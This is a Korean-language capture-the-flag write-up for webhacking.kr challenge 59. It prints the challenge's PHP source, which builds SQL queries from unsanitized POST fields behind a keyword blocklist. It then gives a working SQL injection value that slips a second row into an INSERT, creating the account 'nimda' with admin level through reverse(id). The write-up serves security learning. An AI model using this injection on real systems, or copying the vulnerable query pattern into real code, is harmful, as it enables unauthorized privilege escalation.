 ================================================================================================================
[webhacking.kr] 59
================================================================================================================


.. uml::
	
	@startuml

	start

	:Source analysis;

	:Filtering Bypass;

	stop

	@enduml

|

Source analysis
================================================================================================================

접근하면 하나의 웹 페이지가 뜨게 되는데 소스를 클릭하면 소스 내용을 확인할 수 있습니다.

.. code-block:: php

	<?

	if($_POST[lid] && $_POST[lphone])
	{
	$q=@mysql_fetch_array(mysql_query("select id,lv from c59 where id='$_POST[lid]' and phone='$_POST[lphone]'"));

	if($q[id])
	{

	echo("id : $q[id]<br>lv : $q[lv]<br><br>");

	if($q[lv]=="admin")
	{
	@mysql_query("delete from c59");
	@clear();
	}

	echo("<br><a href=index.php>back</a>");
	exit();
	}

	}


	if($_POST[id] && $_POST[phone])
	{
	if(strlen($_POST[phone])>=20) exit("Access Denied");
	if(eregi("admin",$_POST[id])) exit("Access Denied");
	if(eregi("admin|0x|#|hex|char|ascii|ord|from|select|union",$_POST[phone])) exit("Access Denied");

	@mysql_query("insert into c59 values('$_POST[id]',$_POST[phone],'guest')");
	}

	?>
	<html><head><title>Challenge 59</title></head><body>
	<form method=post action=index.php>
	<table border=1>
	<tr><td>JOIN</td><td><input name=id></td><td><input name=phone></td><td><input type=submit></td></tr>
	<tr><td>LOGIN</td><td><input name=lid></td><td><input name=lphone></td><td><input type=submit></td></tr>
	</form>
	</body></html>


목표는 JOIN을 통해 admin 계정을 생성하고, LOGIN을 통해 해당 계정으로 로그인을 진행하는 것입니다.

JOIN에 대한 소스 내용을 보시면 파라미터 값들이 eregi를 통해 특정 문자열에 대해 필터링이 되어 있습니다. 
그리고, 자신의 권한에 해당하는 값에 guest라는 문자열로 박혀있습니다.

|

Filtering Bypass
================================================================================================================

admin 문자열에 대해 필터링이 걸려있기 때문에, reverse 함수를 이용하여 admin 문자열을 거꾸로 입력하는 방식을 사용합니다.

.. code-block:: javascript

    $_POST[id] = nimda
    $_POST[phone] = 1,reverse(id)),(1,1

    "insert into c59 values('nimda',1,reverse(id)),(1,1,'guest')"

계정 추가가 성공적으로 되면 nimda 계정으로 로그인하면 Clear!!

.. code-block:: python

    $_POST[lid] = nimda
    $_POST[lphone] = 1

    "select id,lv from c59 where id='nimda' and phone='1'"
